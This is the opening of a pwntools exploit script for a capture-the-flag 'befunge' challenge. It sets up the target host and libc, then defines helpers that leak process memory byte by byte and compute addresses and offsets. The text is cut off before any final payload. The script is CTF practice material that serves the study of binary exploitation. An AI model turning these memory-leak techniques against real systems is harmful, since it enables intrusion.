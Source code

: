 ```python exp_bef.py  
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time
import math

HOST = "pwn1.chal.ctf.westerns.tokyo" 
PORT = 62839
ELF_PATH = "./befunge_patch"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def str_addr(s, f): # search string address in file
    result = list(f.search(s+"\x00"))
    if not len(result): # no result
        return None
    else:
        return result[0]

def leak_one_byte(off_1, off_80):
    r.sendline(str(off_1))
    r.sendline(str(off_80))
    ret = r.recvuntil(" ")
    return int(ret)

def leak_addr(base, off_80, name=None):
    ret_addr = 0
    cnt = 0
    for i in xrange(base, base+6):
        print "leaking %s byte : %d" % (name, cnt+1)
        ret = leak_one_byte(i, off_80)
        ret_addr = ret_addr | ((ret&0xff) << 8*cnt)
        cnt += 1

    return ret_addr

def cal_offset(addr, text_base):
    start_from = text_base + 0x202040
    offset = addr - start_from
    off_80 = offset/80
```